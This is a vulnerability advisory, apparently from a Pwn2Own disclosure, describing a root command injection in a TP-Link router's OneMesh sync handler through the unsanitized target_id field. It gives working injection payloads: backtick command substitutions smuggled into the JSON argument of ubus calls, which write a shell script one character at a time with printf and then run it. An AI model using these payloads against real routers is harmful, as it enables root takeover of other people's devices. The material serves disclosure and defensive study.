 Our controlled parameter (slave_mac) is assigned to a key "target_id". A command is constructed using printf which is next passed to the fork_call lua function. As it can be seen in lines 187 - 189, json content is injected and the actual command prototype is: `ubus call sync sync_wifi '<json>' &`.

As our controlled parameter is not sanitized before constructing the json we can escape the json context and execute commands within the scope of the lua script process, which runs as root. Effectively a following command will be executed by the lua and run in a shell:

```bash
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"<Controlled_Parameter>"}' &
```

# Exploitation

## Reaching the vulnerable function

To reach a vulnerable function we need to construct and encrypt a packet with specific parameters. As the packet structure is the same as described in the previous advisory we will not discuss it here. Please refer to [last year's advisory for details](https://www.thezdi.com/blog/2020/4/6/exploiting-the-tp-link-archer-c7-at-pwn2own-tokyo).

## Achieving code execution

Similarly to CVE-2020-10882 we are still limited by the 0x11 characters that we can use. strncpy() copies the slave_mac_info key into the slaveMac variable:

`strncpy(slave_mac,*(char **)(iVar6 + 0x10),0x11);`.

strncpy() doesn't null-terminate the destination string by default, so the usable length is supposedly to be 16 characters. However, we are saved by two things: 

1. at the beginning of the function the whole buffer space is memset to 0 (`memset(slave_mac,0,0x424);`); 
2. due to byte alignment, the slave_mac variable is actually at least 0x12 (18) chars. This means that even if we send 17 characters, the string will always be null terminated.

So even if we inject 17 characters, the string will always be null terminated, which is essential for the exploit to succeed. Note that it might be possible to inject more characters at once, but this was the quickest path to success, and we did not focus on efficiency.

Since we have the same limitations to last year's exploit, we need to use a similar approach of printing character by character into a file and execute it as  a shell script in the last step. 
In addition, escaping needs to be done differently: 

```
'`<PAYLOAD\>`'
```

A running exploit looks like this:

```bash
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf ';'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf '.'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf '/'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`printf 'q'>>b`'"}' &
ubus call sync sync_wifi '{"load":"/tmp/onemesh_sync_wifi_tmp_json","timeout":5,"target_id":"'`sh b`'"}' &
```

